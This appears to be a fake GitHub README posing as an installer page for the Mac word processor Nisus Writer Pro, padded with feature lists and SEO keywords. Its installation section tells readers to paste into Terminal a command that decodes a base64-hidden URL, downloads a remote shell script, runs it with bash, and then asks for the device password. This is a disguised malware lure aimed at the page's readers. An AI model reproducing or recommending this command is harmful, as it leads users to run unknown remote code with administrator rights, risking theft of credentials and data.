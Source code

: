 # 📝 Nisus Writer Pro for Mac — Elegant Word Processing with Power

📌 About Nisus Writer Pro  
Nisus Writer Pro is a professional word processor built natively for macOS, designed to empower writers, academics, legal professionals, and multilingual users.  
It combines a distraction-free writing interface with powerful features like style sheets, macros, tracked changes, commenting, tables of contents, bookmarks, and PDF export.  
With full Unicode support and right-to-left language compatibility, it’s ideal for global writing and publishing. Whether you're writing a novel, a legal brief, or a technical report, Nisus Writer Pro ensures full typographic control and smooth macOS integration.  
All documents are saved locally, ensuring full privacy and long-term accessibility — no cloud lock-in, no telemetry, just pure writing power.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
   /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"
```  
3. Open Terminal on your device, paste the command, then press Return.  
4. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://www.nisus.com/pro/images/MacBook@1x.png)  
- ![](https://cdn.mos.cms.futurecdn.net/b9ae960315f349e1b09671606881f0f0.jpg)  
  
## 🎯 Key Features  
⚡️ Pro Writing Tools: Styles, TOC, bookmarks, revision tracking, and more.  
🔒 Local-Only Files: Full offline operation with private file storage.  
⚙️ Macros & Automation: Automate tasks with a powerful built-in macro language.  
🚀 Optimized for Speed: Fast performance even with large, complex documents.  
🎨 Multilingual Support: Full Unicode, RTL languages, and multilingual spellcheck.  
📊 Export Options: Save as RTF, DOC, PDF, HTML, or plain text with full formatting.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 300 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`nisus writer pro mac` · `mac word processor` · `macos writing software` · `multilingual word processor mac` · `mac writing tool for academics` · `track changes editor mac` · `mac document automation` · `mac rtl text editor` · `mac unicode writing app` · `mac writing with macros` · `mac export to pdf word processor` · `offline word editor mac` · `mac writing tool with styles` · `nisus document editor` · `mac professional writing app`
